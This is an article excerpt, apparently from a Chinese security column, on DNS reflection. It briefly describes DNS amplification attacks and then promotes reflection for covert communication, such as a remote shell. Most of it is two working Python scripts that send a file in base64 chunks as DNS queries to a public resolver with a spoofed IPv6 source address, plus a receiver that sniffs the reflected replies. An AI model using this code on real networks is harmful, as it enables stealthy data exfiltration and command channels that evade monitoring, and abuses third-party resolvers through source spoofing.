

# DNS专栏

https://www.freebuf.com/column/211543.html

><h3>域名系统（Domain Name System）几乎和互联网一样古老。它的特殊结构也使它早就成为黑客的利用对象。在这篇短文中，我将详细描述DNS反射的原理，为什么黑客喜欢使用它，以及你为什么要用它。

## 为啥黑客会乐此不疲的去使用dns服务器进行反射攻击

>主要原因是DNS回复流量远远大于对应的请求流量，这样就可以放大黑客的DoS流量，增强攻击的破坏力；而另一个原因则是DNS请求使用的是非面向连接的UDP协议。因此，现在有不少管理员都在防火墙上配置阻断DNS流量




`为什么你也需要使用DNS反射？`假设你想与上图中的服务器通信，`能相互交流`（例如一个远程shell）。有一个很容易而且很常见的方法就是`创建自己的DNS服务器`，然后通过虚假的DNS查询进行通信。`这的确是一个很好的方法`，但我想向你展示一种无需设置任何额外的服务器而进行通信的方法，`只需要利用IPv6即可，它的直连特性（不存在NAT）极大帮助了我们。`

列示代码：

>以下两端Python示例代码可把一个文件发送到另一个台电脑中，且无需两台机器能够互相通信。主要通过把文件拆分成60字节的数据块（单个域名的最大长度域），再辅以DNS反射技术实现的。(两个都是Linux平台)

发送端代码：

```python
#!/usr/bin/python3
from kamene.all import *
import base64,time,sys    

dnsaddr = "2620:119:35::35"    # OpenDNS as an example
send_delay = 0.8
def send_packet(ip,packet_data):
    encoded_message = base64.b64encode(packet_data.encode('ascii'))+b'-'
    encoded_message_size = len(encoded_message)
    for i in range(0,encoded_message_size,60):
        data = encoded_message[i:i+60]
        DNSpacket = IPv6(dst=dnsaddr,src=ip)/UDP(sport=RandShort())/DNS(id=1337,rd=0,z=0,tc=1,qd=DNSQR(qname=data,qtype="A",qclass="IN"))
        send(DNSpacket,verbose=0)
        time.sleep(send_delay)
if len(sys.argv)<3:
    print(f'{sys.argv[0]}receiver_ipv6_addr data_file')
    sys.exit()
send_packet(sys.argv[1],open(sys.argv[2]).read())
```
> 接收方代码：

```python
#!/usr/bin/python3
import logging    
logging.getLogger("scapy.runtime").setLevel(logging.ERROR)
from kamene.all import *
import base64,sys    
def receive_packet(listen_iface):
    data = bytearray()
    while not b'-' in data    :
        DNSPacket = sniff(iface=listen_iface,filter="src port 53",count=1)
        if(DNSPacket[0].haslayer(DNS))and(DNSPacket[0].getlayer(DNS).id==1337):
            data += (DNSPacket[0].getlayer(DNS).qd.qname[:-1])
    print(base64.b64decode(data[:-1]).decode('ascii'),end='')
if len(sys.argv)<2:
    print(f'{sys.argv[0]}listen_interface')
    sys.exit()
receive_packet(sys.argv[1])
```


